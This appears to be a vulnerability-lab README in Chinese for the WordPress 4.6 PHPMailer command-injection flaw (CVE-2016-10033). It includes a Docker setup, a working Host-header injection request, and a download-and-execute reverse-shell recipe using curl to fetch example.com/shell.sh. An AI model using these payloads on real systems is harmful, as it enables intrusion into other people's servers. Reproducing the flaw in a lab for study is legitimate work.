 # Wordpress 4.6 任意命令执行漏洞（PHPMailer）

## 原理

参考 https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## 测试环境

编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

由于Mysql初始化需要一段时间，所以请等待。成功运行后，打开站点，初始化管理员用户名和密码后即可使用（数据库等已经配置好，且不会自动更新）。

## 测试与EXP使用

发送如下数据包，可见`/tmp/success`已经成功创建：

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

但实际利用起来，还是有一些坑需要踏过。具体的坑有这么几个：

1. 执行的命令不能包含大量特殊字符，如`:`、引号等。
2. 命令会被转换成小写字母
3. 命令需要使用绝对路径
4. 需要知道某一个存在的用户的用户名

为了解决这些坑，漏洞作者想出了，利用`${substr{0}{1}{$spool_directory}}`代替`/`，用`${substr{10}{1}{$tod_log}}`代替空格的方法。

但是还是有很多字符不能用，所以我们需要将待执行的命令放到第三方网站中，然后通过`curl -o /tmp/rce example.com/shell.sh`的方法先将他下载到/tmp目录中，再去执行。

所以，总体来说利用过程如下：

1. 编写反弹shell的exp，放到某个网页里。有如下要求：
  - 整个url的大写字母会被转换成小写，所以大写小敏感的系统不要使用大写字母做文件路径
  - 访问该网页不能跳转，因为follow跳转的参数是`-L`（大写）
2. 拼接成命令`/usr/bin/curl -o/tmp/rce example.com/shell.sh`和命令`/bin/bash /tmp/rce`
3. 将上述命令中的空格和`/`转换成`${substr{10}{1}{$tod_log}}`和`${substr{0}{1}{$spool_directory}}`
4. 拼接成HTTP包的Host头：`target(any -froot@localhost -be ${run{command}} null)`
5. 依次发送这两个拼接好的数据包

我将上述过程写成[exp脚本](exploit.py)，将脚本中target修改成你的目标，user修改成一个已经存在的用户，`shell_url`修改成你放置payload的网址。（或直接将target作为第一个参数、`shell_url`作为第二个参数）

执行即可获得shell：

![](1.png)